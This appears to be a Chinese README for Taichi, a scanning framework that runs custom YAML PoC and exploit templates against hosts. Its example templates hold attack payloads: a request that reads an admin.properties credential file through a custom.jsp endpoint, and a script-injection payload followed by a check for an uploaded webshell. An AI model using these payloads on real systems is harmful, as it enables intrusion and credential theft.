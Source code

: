 # Taichi

持续更新中

# 历史更新

2023.3.24

新增识别exp，poc功能

新增扫描多个poc功能

适配[CVE-2023-28432](https://mp.weixin.qq.com/s/vpI3C575BxSPzHNi_oF60w)

# 前言

之前写了几个poc，感觉代码有很多相似的地方，所以我寻思能不能写个大体框架，这样以后就不用改来改去了。当然，我也知道有nuclei这样成熟好用的工具，但是我还是想试试，所以就搞了一个这个。（大佬勿喷）

目前才搞了几天，测试的数量也不多，算是个雏形，所以会有很多bug，请见谅。如有bug或者建议欢迎联系我

# 介绍

支持自定义poc或者exp的扫描框架

# 使用方法

```
python3 Taichi.py -h
usage: Taichi.py [-h] [-rh remote_host] [-f file_path] [-o outfile_path]
                 [-t thread_num] [-p poc_path] [-a all poc or exp]

Taichi by atk7r

options:
  -h, --help            show this help message and exit
  -rh remote_host, --rhost remote_host
                        Please input host to scan.
  -f file_path, --file file_path
                        Please input file path to scan.
  -o outfile_path, --outfile outfile_path
                        Please input path for output file.
  -t thread_num, --thread thread_num
                        Please input thread number.
  -p poc_path, --poc poc_path
                        Please input poc path to scan.
  -a all poc or exp, --all all poc or exp
                        Please input poc path to scan.
```

### 扫描单个目标

```
python3 Taichi.py -rh 123.123.123.123 -p poc.yaml
python3 Taichi.py -rh 123.123.123.123 -a /root/Taichi/pocs
```

### 扫描多个目标

```
python3 Taichi.py -f target.txt -p poc.yaml -o result.txt
python3 Taichi.py -f target.txt -a /root/Taichi/pocs -o result.txt
```

### 多线程扫描

```
python3 Taichi.py -f target.txt -p poc.yaml -o result.txt -t 5
python3 Taichi.py -f target.txt -a /root/Taichi/pocs -o result.txt -t 5
```

# 文件说明

## 目录

```
|
|--------- configuration(配置文件)
|
|--------- model(模式文件)
|
|--------- pocs(poc或者exp)
```

## 两种yaml格式

**注意：yaml文件中参数的位置不可以改变**

### poc.yaml格式

```
#种类：poc对应的是scan.py
- type:
  - type: "poc"

#请求方式
- method:
  - method: "post"

#payload
- payload:
  - var: '{"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'
  
#response包里的关键字
- word:
  - word:
      - "password"

#漏洞的位置
- url:
  - url : "/sys/ui/extend/varkind/custom.jsp"
```

#### type

之所以需要type参数，是因为某些漏洞需要二次访问，type为poc的漏洞，例如禅道sql注入这样，访问一次即可判断漏洞

#### method

reques的方式，根据自己需求来定

#### payload

例子中的payload

```
  - var: '{"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}'
```

可以随意变换为request包里的内容，例如:

```
  - a: 'aaaaaaaaaaa'
```

但是，如果像[(CVE-2023-28432)](https://mp.weixin.qq.com/s/vpI3C575BxSPzHNi_oF60w)这样的漏洞，没有payload，写成：

```
  - isNone : 'isNone'
```

#### response

response包的关键词，用于判断漏洞是否存在，目前只可以支持一个参数

#### url

因为我在采用了url+<拼接内容>这样的方法来访问url，例如：http://192.168.0.1/a/b/b.jsp，就要把/a/b/b.jsp填入url参数

### exp.yaml格式

```
#种类：exp对应的是attack.py
- type:
  - type: "exp"

#请求方式
- method:
  - method: "post"

#payload
- payload:
  - s_bean: 'ruleFormulaValidate&script=u0067\u0020\u003d\u0020\u0074'

#response包里的关键字
- word:
  - word:
      - "ok"

#漏洞的位置
- url:
  - url : "/sys/ui/extend/varkind/custom.jsp"

#attack中 验证攻击成功的 请求方式
- method-V:
  - method: "get"

#webshell位置
- verify:
  - verify : "/login_listyes.jsp"

```

同理，payload内容也是可以变的

这里就只介绍和poc.yaml不一样的地方

#### type

这种type为exp的是为了满足二次访问的需求，例如上传了webshell，之后再访问webshell

#### method-V

二次访问的请求方式，根据自己需求来

#### verify

这个地方就是上面说的二次访问的请求方式，如果你传了webshell，这个地方就填入你webshell的路径，例如：http://192.168.0.1/a/b/b.jsp，那这个地方就填入/a/b/b.jsp

